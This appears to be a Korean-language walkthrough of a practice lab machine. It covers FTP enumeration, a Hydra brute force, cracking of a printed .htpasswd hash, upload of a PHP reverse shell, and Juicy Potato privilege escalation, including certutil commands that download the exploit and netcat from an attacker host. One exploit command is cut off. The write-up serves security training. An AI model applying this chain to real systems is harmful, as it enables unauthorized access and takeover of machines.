






## 정보 수집
nmap을 통해 포트 스캔을 수행함.
```
└─$ nmap 192.168.170.46 -Pn -n --min-rate 3000 --open -oN scan
Starting Nmap 7.95 ( https://nmap.org ) at 2026-10-11 02:04 EDT
Nmap scan report for 192.168.170.46
Host is up (0.16s latency).
Not shown: 998 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT     STATE SERVICE
21/tcp   open  ftp
3389/tcp open  ms-wbt-server

Nmap done: 1 IP address (1 host up) scanned in 2.48 seconds
```

익명으로 ftp 서비스에 접근 가능했으며, 의심스로운 accounts란 디렉토리가 확인됨.
```
└─$ ftp anonymous@192.168.170.46
Connected to 192.168.170.46.
220 zFTPServer v6.0, build 2011-10-17 15:25 ready.
331 User name received, need password.
Password: 
230 User logged in, proceed.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||2048|)
150 Opening connection for /bin/ls.
total 9680
----------   1 root     root      5610496 Oct 18  2011 zFTPServer.exe
----------   1 root     root           25 Feb 10  2011 UninstallService.bat
----------   1 root     root      4284928 Oct 18  2011 Uninstall.exe
----------   1 root     root           17 Aug 13  2011 StopService.bat
----------   1 root     root           18 Aug 13  2011 StartService.bat
----------   1 root     root         8736 Nov 09  2011 Settings.ini
dr-xr-xr-x   1 root     root          512 Oct 11 16:14 log
----------   1 root     root         2275 Aug 08  2011 LICENSE.htm
----------   1 root     root           23 Feb 10  2011 InstallService.bat
dr-xr-xr-x   1 root     root          512 Nov 08  2011 extensions
dr-xr-xr-x   1 root     root          512 Nov 08  2011 certificates
dr-xr-xr-x   1 root     root          512 Jul 17 02:52 accounts
226 Closing data connection.
```

/accounts/backup 디렉토리에 이돟하면 계정 이름이 확인기 가능했음.
```
ftp> pwd
Remote directory: /accounts/backup/
ftp> ls
229 Entering Extended Passive Mode (|||2052|)
150 Opening connection for /bin/ls.
total 4
----------   1 root     root          764 Jul 10  2020 acc[Offsec].uac
----------   1 root     root         1030 Jul 10  2020 acc[anonymous].uac
----------   1 root     root          926 Jul 10  2020 acc[admin].uac
```

admin으로 패스워드 브루트포싱 시도 시 패스워드 admin을 발견.
```
└─$ hydra -l admin -P /usr/share/wordlists/rockyou.txt -e nsr -f ftp://192.168.170.46
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2026-10-11 05:25:31
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344402 login tries (l:1/p:14344402), ~896526 tries per task
[DATA] attacking ftp://192.168.170.46:21/
[21][ftp] host: 192.168.170.46   login: admin   password: admin
[STATUS] attack finished for 192.168.170.46 (valid pair found)
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2026-10-11 05:25:36
```

admin:admin으로 정상 접근 성공했으며, .htpasswd를 발견.
```
└─$ ftp admin@192.168.170.46
Connected to 192.168.170.46.
220 zFTPServer v6.0, build 2011-10-17 15:25 ready.
331 User name received, need password.
Password: 
230 User logged in, proceed.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||2053|)
150 Opening connection for /bin/ls.
total 3
-r--r--r--   1 root     root           76 Nov 08  2011 index.php
-r--r--r--   1 root     root           45 Nov 08  2011 .htpasswd
-r--r--r--   1 root     root          161 Nov 08  2011 .htaccess
226 Closing data connection.
```

.htpasswd 확인해보면 패스워드가 해시값으로 저장되어있음.
```
ftp> less .htpasswd
offsec:$apr1$oRfRsc/K$UpYpplHDlaemqseM39Ugg0
```

john으로 복호화하여 패스워드 elite를 확인했음.
```
└─$ john --wordlist=/home/kali/Desktop/oscp/B/SecLists/Passwords/Common-Credentials/xato-net-10-million-passwords.txt offsec.txt
Warning: detected hash type "md5crypt", but the string is also recognized as "md5crypt-long"
Use the "--format=md5crypt-long" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (md5crypt, crypt(3) $1$ (and variants) [MD5 256/256 AVX2 8x3])
No password hashes left to crack (see FAQ)
                                                                                     
└─$ john --show offsec.txt
offsec:elite

1 password hash cracked, 0 left
```

## 초기 침투

242 포트에 접근하면 계정 입력창이 뜨며, offsec:elite 계정으로 접근이 가능했음.


로그인 후 ftp 디렉토리에서 봤던 index.php 페이지가 확인됨.


해당 계정은 Ivan Sincek 리버스 쉘로만 실행이 가능하였음. 


위에서 확인한 리버스 쉘을 ftp에 업로드.
```
└─$ ftp admin@192.168.170.46 
Connected to 192.168.170.46.
220 zFTPServer v6.0, build 2011-10-17 15:25 ready.
331 User name received, need password.
Password: 
230 User logged in, proceed.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> put cmd.php
local: cmd.php remote: cmd.php
229 Entering Extended Passive Mode (|||2050|)
150 File status okay; about to open data connection.
100% |**********************************************************|  9296       28.23 MiB/s    00:00 ETA
226 Closing data connection.
9296 bytes sent in 00:00 (22.01 KiB/s)
```

업로드한 /cmd.php에 접근하면 netcat을 통해 리버스쉘을 획득함.



## 권한 상승
해당 계정에는 SeImpersonatePrivilege 권한이 있엇지만, 점검자 실수로 증적을 남기지 못했음.
해당 os는 2008 버전이며 potato 공격이 가능했음.
```
C:\wamp\bin\apache\Apache2.2.21>systeminfo | findstr /B /C:"Host Name" /C:"OS Name" /C:"OS Version" /C:"System Type" /C:"Hotfix(s)"
Host Name:                 LIVDA
OS Name:                   Microsoftr Windows Serverr 2008 Standard 
OS Version:                6.0.6001 Service Pack 1 Build 6001
System Type:               X86-based PC
Hotfix(s):                 N/A
```

모든 patato공격 중 Juicy Potato만 공격이 성공함.
```
certutil -urlcache -split -f http://192.168.49.114/Juicy.Potato.x86.exe Juicy.Potato.x86.exe
certutil -urlcache -split -f http://192.168.49.114/nc.exe nc.exe

.\Juicy.Potato.x86.exe -t * -p c:\windows\system32\cmd.exe -a "/c C:\Users\apac
Testing {3c6859ce-230b-48a4-be6c-932c0c202048} 1337
```
※ Juicy Potato[https://github.com/ivanitlearning/Juicy-Potato-x86/releases/tag/1.2]
※ CLSID[https://ohpe.it/juicy-potato/CLSID/Windows_Server_2008_R2_Enterprise/]

그 후 netcat을 통해 관리자 리버스쉘을 확인이 가능함.

